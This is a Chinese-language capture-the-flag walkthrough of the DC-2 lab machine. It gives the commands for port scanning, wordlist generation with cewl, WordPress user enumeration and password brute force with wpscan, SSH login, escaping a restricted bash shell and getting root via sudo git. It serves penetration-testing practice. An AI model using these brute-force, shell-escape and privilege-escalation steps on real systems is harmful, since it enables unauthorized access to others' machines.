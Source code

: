 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-2（192.168.1.10）


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.10 -p-
```

![image-20220110135337058.png](_img/06-靶场实践/1652256082063-a1471140-047f-476a-b279-1b5e885bf8e0.png)

可以看到开放了80端口HTTP服务，7744端口SSH服务


## flag1

访问HTTP服务，在页面发现flag1

![image-20220110135537164.png](_img\06-靶场实践/1652256089511-7ada5468-5c38-41e4-9ba6-2f4e9f9d4ca6.png)


## flag2

flag1提示我们`Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.`那么我们就提示使用cewl来生成字典

[什么是cewl？点这里](https://www.codercto.com/a/44828.html)

```
cewl dc-2 > password
```

![image-20220110135843819.png](_img\06-靶场实践/1652256100054-63359d9a-f1f9-4147-8bb9-0f68892e628e.png)

有字典就想到爆破，提到爆破就想到后台，对网站进行目录扫描

![image-20220110140801697.png](_img\06-靶场实践/1652256102983-f45ab646-43a0-4dc7-8e59-3219d5939e6e.png)

在浏览网站的同时我们也可以发现网站是使用WordPress搭建的

![image-20220110140934363.png](_img\06-靶场实践/1652256107500-9411b031-4fd6-430f-bbd6-f0c3bc13c07e.png)

wpscan是专门扫描检测wordpress搭建的工具来查看是否存在已知漏洞，使用wpscan进行扫描

[什么是wpscan？点这里](https://blog.csdn.net/qq_43168364/article/details/112132186)

wordpress信息扫描

```
wpscan --url dc-2
```

扫描出wordpress的版本，目标IP等信息

![image-20220110141539982.png](_img\06-靶场实践/1652256111275-06893757-73df-435e-a819-c8684396989c.png)

使用wpscan进行用户枚举

```
wpscan --url dc-2 -e u
```

![image-20220110141646806.png](_img\06-靶场实践/1652256115247-4ddbaa7f-7889-4baa-9d6a-eb6cc543dbc6.png)

成功得到admin、jerry、tom三个账户，创建一个users文件将用户名存入，并使用前面得到的password进行爆破

```
wpscan --url dc-2 -U users -P password
```

![image-20220110142157641.png](_img\06-靶场实践/1652256118725-9aa0a14f-6a76-4db0-81da-b6a2da45693a.png)

```
jerry / adipiscing
tom / parturient
```

得到jerry和tom的密码，登录后台，找到flag2

![image-20220110142351288.png](_img\06-靶场实践/1652256122170-1f96f2b7-434c-4a64-a503-6f99e0eaedea.png)


## flag3

flag2提示我们`If you can't exploit WordPress and take a shortcut, there is another way.`找另一个突破口，在前面我们扫描出7744端口SSH服务，尝试登录。

```
ssh tom@192.168.1.10 -p 7744
```

成功使用tom账户登录并找到flag3

![image-20220110143224280.png](_img\06-靶场实践/1652256127489-2fd0d389-09aa-43f4-8965-6076e36381a0.png)

查看flag3

![image-20220110143530438.png](_img\06-靶场实践/1652256130710-b1d1a488-6711-470c-8576-9f78d7a48021.png)

可以看到使用了rbash(restricted bash，即受限制的 bash。其可以用作中转服务器，或者仅使用 ssh 来访问网页等等)来限制可以使用的命令。尝试绕过rbash

```
BASH_CMDS[a]=/bin/bash
a
/bin/bash
export PATH=PATH:/sbin:/bin
```

再次查看flag3

![image-20220110144754222.png](_img\06-靶场实践/1652256134064-0d8b4ff9-24df-415d-b156-7219bece19a3.png)

成功得到flag3


## flag4

flag3提示我们`Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.`可怜的老汤姆总是追杰瑞，根据这句话想到flag4可能是在jerry目录里面

![image-20220110145205733.png](_img\06-靶场实践/1652256137511-472f537c-d03b-48bf-864d-000341688afe.png)

成功得到flag4


## final-flag

通过查看/etc/passwd文件发现jerry用户拥有正常的bash

![image-20220110145959070.png](_img\06-靶场实践/1652256140662-83620463-e9c5-407f-9c8f-885aefc7bd54.png)

切换到jerry用户并尝试提权

![image-20220110150131798.png](_img\06-靶场实践/1652256143809-1e42780b-e2eb-4666-9cf1-eeeda43e85d8.png)

提权失败，但是我们可以无密码使用root权限的命令，使用[git提权](https://gtfobins.github.io/gtfobins/git/)

输入命令`sudo git help config`之后直接在出现的help界面，输入 `!/bin/bash`，成功提权

![image-20220110150747962.png](_img\06-靶场实践/1652256147381-4ba75de9-1344-46fe-b760-478e97c06b42.png)

![image-20220110150813588.png](_img\06-靶场实践/1652256150056-bb1cf5cd-3f00-4a24-b073-75e2c86e5050.png)

成功得到root权限

在root根目录找到final-flag

![image-20220110150932679.png](_img\06-靶场实践/1652256157210-ee7a6f42-0a05-4407-ab78-677f9b022781.png)
